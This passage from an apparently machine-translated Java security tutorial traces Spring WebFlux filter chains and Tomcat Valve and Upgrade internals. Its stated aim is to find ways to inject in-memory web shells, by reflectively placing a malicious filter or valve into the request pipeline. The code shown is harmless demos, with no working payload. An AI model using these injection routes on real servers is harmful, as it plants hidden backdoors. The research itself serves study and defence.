Let's continue to walk over and see that the `context` corresponding to our `REACTIVE` is `AnnotationConfigReactiveWebServerApplicationContext`:


Continue to go down, we will go back to the beginning, and you can see that the `prepareContext`, `refreshContext` and `afterRefresh` methods will be called next. This process is a series of initialization, listening registration and other operations:


Our `step into`refreshContext` method here:


Then `step into` here `refresh` method:



After entering, then the `step into`refresh` method here:



You can see that a `super.refresh` is called here, which is the `refresh` method of the parent class:


We continued to view `step into` and found that the onRefresh method is called here:


We `step into` here `onRefresh` and found that it calls the key `org.springframework.boot.web.reactive.context.ReactiveWebServerApplicationContext#createWebServer`:


Continue to step over, you can see that since we are using `Netty` instead of `Tomcat`, we end up calling the `getWebServer` method in the `NettyReactiveWebServerFactory` class:


The `WebServerManager` class in the figure above is also an important encapsulation class, with two member variables, one is the abstract `WebServer` of the underlying server, and the other is the abstract `DelayedInitializationHttpHandler` of the upper-level method handler:



So how exactly is this `webserver` started? Let's continue to go to the `finishRefresh` method. If we directly have no brainstorming `step over`, the program will eventually return to the `run` method. It means that the place where the `webserver` is definitely in the `finishRefresh` method:


Let's go in and take a look:


Then `step into` and check out the `getLifecycleProcessor().onRefresh()` method called here, and found that the `startBeans` method was called and the self-start was set:


We directly `step into` the startBeans` method, step over step by step, and you will find that the start method is called. It seems that we are gradually approaching the truth:


We continued to the `step into the `start` method and found that the `org.springframework.context.support.DefaultLifecycleProcessor#doStart` method was called:



I went in and found that since `dependenciesForBean` is [], the `doStart` method was not called, and I just called `bean.start()`:


Continue to the `step into` start` method:


How come there is nothing? What a strange thing, what went wrong? I was stunned at this step and decided to cancel the breakpoint I had hit before, and set the breakpoint at the position shown in the following two figures to re-debug, because these two methods are the key methods:


After debugging several times, I found that I was negligent. There are actually three in this.lifecycleBeans here. One will be deleted every time the `doStart` method is called:


As you can see, we just called the first `bean`, so of course there is no method related to starting `webserver`:


We step over. When `memeber.name` is `webServerStartStop`, we will step into the `bean.start()` in the `doStart` method:


You can see `this.weServerManager.start()`:


Let's continue with the `step into` this `start` method:


Take a closer look at the code in the red box above. First, initialize `HttpHandler`. This method actually determines when to initialize according to the difference in the value of `lazyInit`. If `lazyInit` is `true`, then wait until the first request arrives before it is actually initialized; if `false`, then call `initializeHandler` in the `start` method of `WebServerManager` to initialize directly:


We continue to step into the `start` method here and find that its location is `org.springframework.boot.web.embedded.netty.NettyWebServer#start`


It is only then that I really understand that the key method for starting a real `webServer` is `org.springframework.boot.web.embedded.netty.NettyWebServer#startHttpServer`:


You can also see from the following `this.webServer` that the binding is `0.0.0.0:9191`:


### 2.12.4 Analysis of Spring WebFlux request processing process

How does `Spring WebFlux` process when a request comes?

Here we set a breakpoint at `org.example.webfluxmemoryshelldemo.hello.GreetingHandler#hello`, and then debug it, and visit `http://127.0.0.1:9191/hello` to trigger `debug`:


Step by step `step over` and then go to `org.springframework.web.reactive.DispatcherHandler#invokeHandler`:


After step into `step into`, you can see that it is `org.springframework.web.reactive.DispatcherHandler#handle`:


Explain the `return` part of the above code, first check whether the `handlerMappings` is `null`. If so, call the `createNotFoundError` method to return a `Mono` indicating that the handler was not found; then check whether it is a preflight request through the `CorsUtils.isPreFlightRequest` method. If it is, call the `handlePreFlight` method to handle the preflight request. If it is not a preflight request and the `handlerMappings` is not `null`, obtain the requested `handler` through a series of operations, then call the `invokeHandler` method to execute the handler, and then call the `handleResult` method to process the execution result, and finally return a `Mono` indicating that the processing is completed.

Here, we look down at the bottom left corner, and we can see that before this, a `org.springframework.web.reactive.handler.AbstractHandlerMapping#getHandler` was called:


We remove the previous breakpoint and then set the breakpoint here in the function:


It was found that `org.springframework.web.reactive.handler.AbstractHandlerMapping#getHandlerInternal` was called. We went back and looked and found that the call location was `org.springframework.web.reactive.function.server.support.RouterFunctionMapping#getHandlerInternal`:


Click to go:


The final creation of the `DefaultServerRequest` object is. It should be noted that when creating the object, the `HttpMessageReader` list saved in `RouterFunctionMapping` is passed as a parameter, so that the `DefaultServerRequest` object has the ability to parse parameters.

Go back to the `getHandlerInternal` function, look at the anonymous function in its `return`, and find that it calls `org.springframework.web.reactive.function.server.RouterFunction#route`, and we click in to see:

I found that it was only defined in the interface:


So I went to the previous `Threads & Variables`:


First, call the `this.predicate.test` method to determine whether the incoming `ServerRequest` meets the routing requirements. If the processing method is matched, the saved `HandlerFunction` implementation will be returned, otherwise the empty `Mono` will be returned.

Click on this `test` method and found that it is still an interface. Combined with the previous naming rules of `RouterFunction.java` and `RouterFunctions.java`, it is reasonable to guess that the implementation of the `test` method should be in `RequestPredicates.java`. Sure enough, we cancel all the breakpoints we had before, and debugged them after re-setting the breakpoint in the `test` function:


You can see that you have already obtained the `pattern` here, so you are still missing to analyze the `GET` method in the `request`:


We continued `step over` and found that we jumped here directly. I was quite puzzled at the time. How did we know the `this.left` and `this.right` here:


These two variables are known to indicate that they have been assigned values ​​before executing `test`. I continue to `step over`. From the figure below, you can see that there is an additional `&&` between the two. It is not difficult to guess that the `org.springframework.web.reactive.function.server.RequestPredicates.AndRequestPredicate` method is called, because there is also an `OrRequestPredicate`. If this `or` is the `||`:


So we set a breakpoint on the `AndRequestPredicate` method. At this time, we have triggered debugging before we accessed `http://127.0.0.1:9191/hello`. This is because the code we wrote in `GreetingRouter.java` includes the `GET` method, `/hello` route and `and` and `this.right`. Therefore, we will call `AndRequestPredicate` and copy `GET` and `/hello` to `this.left` and `this.right` respectively:


At this point, we basically understand the problem of routing matching. The next thing we need to consider is how to handle the request. This is relatively simple. Why do we say so? Because it has been basically involved in our analysis in Section 2.12.3. We still set up breakpoint debugging in `org.springframework.web.reactive.DispatcherHandler#invokeHandler`:


You can see that there are four `handlerAdapters` in the `this.handlerAdapters`:


Not all `handlerAdapter` triggers the `handle` method, and can only be called when the `handlerAdapter` that supports our given `handler`:


Then we `step into` here the `handlerAdapter.handle` method, and found that it is in `org.springframework.web.reactive.function.server.support.HandlerFunctionAdapter#handle`:



And here `handlerFunction.handle` is the `route` method we wrote:


At this point, the part about processing the request is completed.

### 2.12.5 Analysis of the operation process of Spring WebFlux filter WebFilter

For Spring WebFlux, since there is no concept of interceptors and listeners, if you want to implement permission verification and access control, you must use `Filter`. For this part of your knowledge, please refer to Spring's official documentation:

> https://docs.spring.io/spring-security/reference/reactive/configuration/webflux.html

In Spring Webflux, there are two types of filters: one is WebFilter, which implements it from the org.springframework.web.server.WebFilter interface. By implementing this interface, a global filter can be defined, which can execute some logic before or after the request is routed to the handler; the other is the `HandlerFilterFunction`, which is a functional programming filter type, implementing it from the `org.springframework.web.reactive.function.server.HandlerFilterFunction` interface. Compared with `WebFilter`, it pays more attention to the style of functional programming and can be used to deal with routing-based filtering logic.

Here we take `WebFilter` as an example to see its running process. Create a new `GreetingFilter.java`, the code is as follows:

```java
package org.example.webfluxmemoryshelldemo.hello;

import org.springframework.http.server.reactive.ServerHttpRequest;
import org.springframework.stereotype.Component;
import org.springframework.web.server.ServerWebExchange;
import org.springframework.web.server.WebFilter;
import org.springframework.web.server.WebFilterChain;
import org.springframework.web.util.pattern.PathPattern;
import org.springframework.web.util.pattern.PathPatternParser;
import reactor.core.publisher.Mono;

@Component
public class GreetingFilter implements WebFilter {
    @Override
    public Mono<Void> filter(ServerWebExchange serverWebExchange, WebFilterChain webFilterChain) {
        PathPattern pattern=new PathPatternParser().parse("/hello/**");
        ServerHttpRequest request=serverWebExchange.getRequest();
        if (pattern.matches(request.getPath().pathWithinApplication())){
            System.out.println("hello, this is our filter!");
        }
        return webFilterChain.filter(serverWebExchange);
    }
}
```

The effects are as follows:


We directly set a breakpoint in the `filter` function and debug it:


I noticed that the `filter` function is called in `return`, so I took a look at it `step into`:


You can see that the `invokeFilter` function is called. Let's take a closer look at this `DefaultWebFilterChain` class:


You can see that there are three functions called `DefaultWebFilterChain`, the first one is the public constructor, the second one is the private constructor (used to create the intermediate node of `chain`), and the third one is the outdated constructor. And in the comments of this class, there is a sentence:

> Each instance of this class represents one link in the chain. The public constructor DefaultWebFilterChain(WebHandler, List) initializes the full chain and represents its first link.
>
> 

That is, by calling the public constructor of the `DefaultWebFilterChain` class, we initialize a complete filter chain, where each instance represents a `link` in the chain, rather than a `chain`, which means we cannot implement the new `Filter` by modifying the `chain.allFilters` in the figure below:



However, there is an initChain method in this class to initialize the filter chain, and this method calls this private constructor:


Then let's take a look at where this public constructor is called:

Move the cursor to this method, press `Ctrl+Alt+F7` twice:


The call is located at `org.springframework.web.server.handler.FilteringWebHandler#FilteringWebHandler`:


Then the idea comes. We just need to construct a `DefaultWebFilterChain` object, and then write it into the `chain` property of the `FilteringWebHandler` class object through reflection.

Now there are only two parameters left to pass in `handler` and `filters`. This `handler` parameter is easy to do, just in `chain`:


Then if we use these `filters`, we can first get its original `filters`, and then put the malicious `filters` we wrote ourselves in and put them first, and that's fine.

Now, find the location of `DefaultWebFilterChain` from memory and then reflect it step by step. Here, use the tool `https://github.com/c0ny1/java-object-searcher` directly, clone the project, and put it in `idea``mvn clean install`:


Then put the generated `java-object-searcher-0.1.0.jar` into the `Libraries` in the Project `Structure` of our `WebFluxMemoryShellDemo` project:


Then we modify our `GreetingFilter.java` code to the following:

```java
package org.example.webfluxmemoryshelldemo.hello;

import org.springframework.http.server.reactive.ServerHttpRequest;
import org.springframework.stereotype.Component;
import org.springframework.web.server.ServerWebExchange;
import org.springframework.web.server.WebFilter;
import org.springframework.web.server.WebFilterChain;
import org.springframework.web.util.pattern.PathPattern;
import org.springframework.web.util.pattern.PathPatternParser;
import reactor.core.publisher.Mono;

import me.gv7.tools.josearcher.entity.Blacklist;
import me.gv7.tools.josearcher.entity.Keyword;
import me.gv7.tools.josearcher.searcher.SearchRequstByBFS;
import java.util.ArrayList;
import java.util.List;

@Component
public class GreetingFilter implements WebFilter {
    @Override
    public Mono<Void> filter(ServerWebExchange serverWebExchange, WebFilterChain webFilterChain) {
        PathPattern pattern=new PathPatternParser().parse("/hello/**");
        ServerHttpRequest request=serverWebExchange.getRequest();
        if (pattern.matches(request.getPath().pathWithinApplication())){
            System.out.println("hello, this is our GreetingFilter!");
        }
        List<Keyword> keys = new ArrayList<>();
        keys.add(new Keyword.Builder().setField_type("DefaultWebFilterChain").build());
        List<Blacklist> blacklists = new ArrayList<>();
        blacklists.add(new Blacklist.Builder().setField_type("java.io.File").build());
        SearchRequstByBFS searcher = new SearchRequstByBFS(Thread.currentThread(),keys);
        searcher.setBlacklists(blacklists);
        searcher.setIs_debug(true);
        searcher.setMax_search_depth(10);
        searcher.setReport_save_path("D:\\javaSecEnv\\apache-tomcat-9.0.85\\bin");
        searcher.searchObject();
        return webFilterChain.filter(serverWebExchange);
    }
}
```

The keyword we set here is `DefaultWebFilterChain`, and then run it directly:


That is, the location is:

```
TargetObject = {reactor.netty.resources.DefaultLoopResources$EventLoop} 
  ---> group = {java.lang.ThreadGroup} 
   ---> threads = {class [Ljava.lang.Thread;} 
    ---> [3] = {org.springframework.boot.web.embedded.netty.NettyWebServer$1} 
     ---> this$0 = {org.springframework.boot.web.embedded.netty.NettyWebServer} 
      ---> handler = {org.springframework.http.server.reactive.ReactorHttpHandlerAdapter} 
       ---> httpHandler = {org.springframework.boot.web.reactive.context.WebServerManager$DelayedInitializationHttpHandler} 
        ---> delegate = {org.springframework.web.server.adapter.HttpWebHandlerAdapter} 
         ---> delegate = {org.springframework.web.server.handler.ExceptionHandlingWebHandler} 
           ---> delegate = {org.springframework.web.server.handler.FilteringWebHandler} 
            ---> chain = {org.springframework.web.server.handler.DefaultWebFilterChain}
```

## 2.13 Tomcat Valve introduction and running process analysis

### 2.13.1 Valves and pipes

Among the many articles, I think the following article is the most easy to understand. Here is a recommendation for you:

> https://www.cnblogs.com/coldridgeValley/p/5816414.html

Here I combined the original text and made appropriate modifications to summarize:

There are four types of Container in `tomcat`, namely `Engine`, `Host`, `Context` and `Wrapper`. The implementation classes of these `4`Container` are `StandardEngine`, `StandardHost`, `StandardContext` and `StandardWrapper`. The relationships of `4 types of containers are inclusion relationships. `Engine` contains `Host`, `Host` contains `Context`, `Context` contains `Wrapper`, and `Wrapper` represents the most basic `Servlet`.
`tomcat` consists of two parts: `Connector` and `Container`. When the network request comes, the Connector first wraps the request as `Request`, and then hands the `Request` to `Container` for processing, and finally returns it to the requester. The first layer of `Container` processing is the `Engine` container, but in `tomcat`, the `Host` container will not directly call the `Host` container to process the request. So how do the request flow in `4` containers, and how do the 4 containers be called in sequence?

It turns out that when the request reaches the `Engine` container, `Engine` does not directly call the corresponding `Host` to handle the related request, but calls one of its own components to handle it. This component is called the `pipeline` component. There is also a component related to `pipeline` that is also an internal component called the `valve` component.

The function of `Pipeline` is just like the meaning of it - pipes. Different containers can be imagined as independent individuals, so `pipeline` can be understood as pipelines, roads, and bridges between different containers. So what is the `Valve` component? `Valve` can also be understood as a valve directly according to the literal meaning. We know that in life, we can see that there are valves on each pipeline, and the relationship between `Pipeline` and `Valve` is the same. `Valve` represents the valve on the pipeline, which can control the flow direction of the pipeline, and of course there can be multiple valves on each pipeline. If `Pipeline` is compared to a highway, then `Valve` can be understood as a toll station on the highway. The bus represents the content in `Pipeline`, then each toll station will do some processing on the content (tolls, check documents, etc.).

In Catalina, the 4 types of containers have their own Pipeline components. Each Pipeline component will have at least one Valve. We call this Valve, which is the base valve. The function of the base valve is to connect the next container of the current container (usually its own self-container). It can be said that the base valve is the bridge between the two containers.

`Pipeline` defines the corresponding interface `Pipeline`, and the standard implements `StandardPipeline`. `Valve` defines the corresponding interface `Valve`, abstract implementation class `ValveBase`, `4` containers corresponding basic valves are `StandardEngineValve`, `StandardHostValve`, `StandardContextValve`, and `StandardWrapperValve`. In actual operation, the operating mechanisms of `Pipeline` and `Valve` are as follows:


This picture is a picture of Singapore's `Dennis Jacob's speech "Extending Valves in Tomcat" in ApacheCON Asia 2022. The `pdf` link is as follows:

> https://people.apache.org/~huxing/acasia2022/Dennis-Jacob-Extending-Valves-in-Tomcat.pdf

The screen recording of this speech can be found on `Youtube`:

> https://www.youtube.com/watch?v=Jmw-d0kyZ_4

### 2.13.2 Write a simple demo of Tomcat Valve

Since I have to configure web.xml when using Valve in the Tomcat environment, I find it troublesome, so I directly use SpringBoot to build it. Remember to check the `Spring Web` here:


Then create the `test` directory and create two files under the `test` directory, `TestValve.java`:

```java
package org.example.valvememoryshelldemo.test;

import java.io.IOException;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.valves.ValveBase;
import org.springframework.stereotype.Component;

@Component
public class TestValve extends ValveBase {
    @Override
    public void invoke(Request request, Response response) throws IOException {
        response.setContentType("text/plain");
        response.setCharacterEncoding("UTF-8");
        response.getWriter().write("Valve 被成功调用");
    }
}
```

There is also `TestConfig.java`:

```java
package org.example.valvememoryshelldemo.test;

import org.apache.catalina.Valve;
import org.springframework.boot.web.embedded.tomcat.TomcatServletWebServerFactory;
import org.springframework.boot.web.server.WebServerFactoryCustomizer;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;

@Configuration
public class TestConfig {
    @Bean
    public WebServerFactoryCustomizer<TomcatServletWebServerFactory> tomcatCustomizer() {
        return factory -> {
            factory.addContextValves(getTestValve());
        };
    }
    
    @Bean
    public Valve getTestValve() {
        return new TestValve();
    }
}
```

The operation effect is as follows:

### 2.13.3 Analysis of Tomcat Valve's idea of ​​entering memory horse

Under normal circumstances, we usually use `ValveBase`. Click on this `ValveBase` and you can see that the `Valve` interface is implemented:


Click `valve` to see the interface code as follows, here I added a comment:

```java
package org.apache.catalina;

import java.io.IOException;
import javax.servlet.ServletException;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;

public interface Valve {
    // Get the next valve
    public Valve getNext();
    // Set up the next valve
    public void setNext(Valve valve);
    // Background execution logic, mainly used in class loading context
    public void backgroundProcess();
    // Execute business logic
    public void invoke(Request request, Response response)
        throws IOException, ServletException;
    // Whether to execute asynchronously
    public boolean isAsyncSupported();
}
```

Next, we will debug the running process of this `valve`. We will debug the breakpoint here in the `invoke` function:


Let's look at the lower left corner and see the `invoke` method I called before:

In `StandardHostValve.java`, the code is:

```java
context.getPipeline().getFirst().invoke(request, response);
```


In `StandardEngineValve.java`, the code is:

```java
host.getPipeline().getFirst().invoke(request, response);
```


The subsequent parts such as `Http11Processor.java` and multi-threading do not need our attention. Since our purpose is to penetrate the memory horse, according to the ideas of the `Tomcat Servlet/Filter/Listener` memory horse we have, we need to add our own malicious `valve` in some way.

We remove the breakpoint we made before, turn off the power in `StandardHostValve.java` and re-debug:


Then `step into`:


Left click on `getPipeline` here to enter the location of the called function implementation:


Then enter the `Pipeline` interface and you can see that there is an `addValve` method:


Isn't this exactly what we need? Let's see where it is implemented. We directly find the class inheriting the interface in the `addValve` function `Ctrl+H`. You can see that it is in `org.apache.catalina.core.StandardPipeline`:


But the problem is here. We cannot directly obtain the `StandardPipeline`, and what we can directly obtain is `StandardContext`, so let's see if there is a method to obtain `StandardPipeline` in `StandardContext.java`.

You can see our old acquaintances at a glance - `getPipeline` method:


Then our ideas can be fully supplemented. First reflect and get the `StandardContext`, then write a malicious `Valve`, and finally add it through `StandardContext.getPipeline().addValve()`. Of course, we can also reflect and obtain `StandardPipeline` and then `addValve`, which is also OK.

## 2.14 Tomcat Upgrade introduction and analysis of the idea of ​​injecting into memory horses

### 2.14.1 Write a simple Tomcat Upgrade demo

#### 2.14.1.1 Build with SpringBoot

I made a simple modification based on the previous `Tomcat Valve` project, deleted the `TestValve.java` in the previous `test` directory, and created a `TestUpgrade.java`:

```java
package org.example.valvememoryshelldemo.test;

import org.apache.coyote.*;
import org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler;
import org.apache.tomcat.util.net.SocketWrapperBase;
import org.springframework.context.annotation.Configuration;
import java.lang.reflect.Field;
import java.nio.ByteBuffer;

@Configuration
public class TestUpgrade implements UpgradeProtocol {
    @Override
    public String getHttpUpgradeName(boolean b) {
        return "hello";
    }

    @Override
    public byte[] getAlpnIdentifier() {
        return new byte[0];
    }

    @Override
    public String getAlpnName() {
        return null;
    }

    @Override
    public Processor getProcessor(SocketWrapperBase<?> socketWrapperBase, Adapter adapter) {
        return null;
    }

    @Override
    public InternalHttpUpgradeHandler getInternalUpgradeHandler(SocketWrapperBase<?> socketWrapper, Adapter adapter, Request request) {
        return null;
    }

    public boolean accept(org.apache.coyote.Request request) {

        try {
            Field response = org.apache.coyote.Request.class.getDeclaredField("response");
            response.setAccessible(true);
            Response resp = (Response) response.get(request);
            resp.doWrite(ByteBuffer.wrap("\n\nHello, this my test Upgrade!\n\n".getBytes()));
        } catch (Exception ignored) {}
        return false;
    }
}
```

Then modify `TestConfig.java` as follows:

```java
package org.example.valvememoryshelldemo.test;

import org.springframework.boot.web.embedded.tomcat.TomcatServletWebServerFactory;
import org.springframework.boot.web.server.WebServerFactoryCustomizer;
import org.springframework.stereotype.Component;

@Component
public class TestConfig implements WebServerFactoryCustomizer<TomcatServletWebServerFactory> {

    @Override
    public void customize(TomcatServletWebServerFactory factory) {
        factory.addConnectorCustomizers(connector -> {
            connector.addUpgradeProtocol(new TestUpgrade());
        });
    }
}
```

After running, execute the command `curl -H "Connection: Upgrade" -H "Upgrade: hello" http://localhost:8080`, the effect is as follows:



#### 2.14.1.2 Built with Tomcat

Of course, it can also be built using `Tomcat`. You only need `TestUpgrade.java`, because it contains the defined `servlet` logic:

```java
package org.example;

import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Request;
import org.apache.coyote.Adapter;
import org.apache.coyote.Processor;
import org.apache.coyote.UpgradeProtocol;
